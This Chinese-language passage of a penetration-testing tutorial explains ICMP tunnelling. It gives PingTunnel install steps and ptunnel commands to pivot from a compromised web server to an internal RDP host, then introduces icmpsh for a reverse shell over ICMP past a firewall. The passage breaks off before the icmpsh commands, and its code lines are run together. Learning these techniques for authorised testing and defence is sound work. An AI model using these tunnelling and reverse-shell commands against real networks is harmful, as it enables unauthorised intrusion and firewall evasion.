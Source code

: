     
    
    yum -y install byaccyum -y install flex bison#安装libpcap依赖库wget http://www.tcpdump.org/release/libpcap-1.9.0.tar.gztar -xzvf libpcap-1.9.0.tar.gzcd libpcap-1.9.0./configuremake && make install#安装PingTunnelwget http://www.cs.uit.no/~daniels/PingTunnel/PingTunnel-0.72.tar.gztar -xzvf PingTunnel-0.72.tar.gzcd PingTunnelmake && make install

ptunnel 常用命令介绍：

    
    
    -p: 指定跳板服务器 IP 地址-lp: 监听本地 TCP 端口-da: 指定访问目标的内网 IP 地址-dp: 指定访问目标的端口-m: 设置隧道最大并发数-v: 输入内容详细级别（-1到4，其中-1为无输出，4为全部输出）-udp: 切换使用UDP代替ICMP，代理将监听端口53（必须是 root 权限）-x: 设置隧道密码，防止滥用（客户端和代理端必须相同）

目前有这样的一个场景，当前已经拿下了一台外网 Web Linux 服务器，想通过它利用 ICMP 协议连接内网的一台已经开启远程桌面的 Windows
，网络结构简化如下。

    
    
    Kali 攻击机       172.16.214.6 (外网)||Linux Web 跳板机  172.16.214.5  (外网)|                192.168.7.5   (内网)||Win RDP 目标机    192.168.7.110 (内网)

在 Kali 攻击机上执行以下命令

    
    
    ptunnel -p 172.16.214.5 -lp 1080 -da 192.168.7.110 -dp 3389 -x teamssix
    
    
    -p  指定跳板机外网IP-lp 指定本机的监听端口-da 指定目标机的内网IP-dp 指定目标机的端口-x 设置隧道密码

在 Linux Web 跳板机上执行以下命令

    
    
    ptunnel -x teamssix

之后访问 Kali 攻击机 172.16.214.6 的 1080 端口就会连接到 Win RDP 目标机 192.168.7.110 的 3389
端口了，不过实测发现这种方法有些不稳定。

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20211027204328.png)

### icmpsh

icmpsh 使用很简单，直接在 github 上下载，运行时不需要管理员权限，但是在使用时需要关闭本地系统的 ICMP 应答，不然 shell
的运行会不稳定。

    
    
    git clone https://github.com/inquisb/icmpsh.git #下载工具apt-get install python-impacket # 安装依赖，或者 pip2 install impacketsysctl -w net.ipv4.icmp_echo_ignore_all=1  #关闭本地ICMP应答

icmpsh 常用命令介绍：

    
    
    -t host            发送ping请求的主机ip地址，即攻击机的IP [该命令必须存在]-d milliseconds    请求时间间隔（毫秒）-o milliseconds    响应超时时间（毫秒）-s bytes           最大数据缓冲区大小（字节）

目前有这样的一个场景，攻击机能通过 ICMP 协议访问到目标主机，但是目标上有防火墙，拒绝了敏感端口比如 22、3389 端口的访问，这个时候可以使用
icmpsh 利用 ICMP 协议建立反向 shell

    
    
    攻击机 IP：172.16.214.6目标机 IP：172.16.214.2
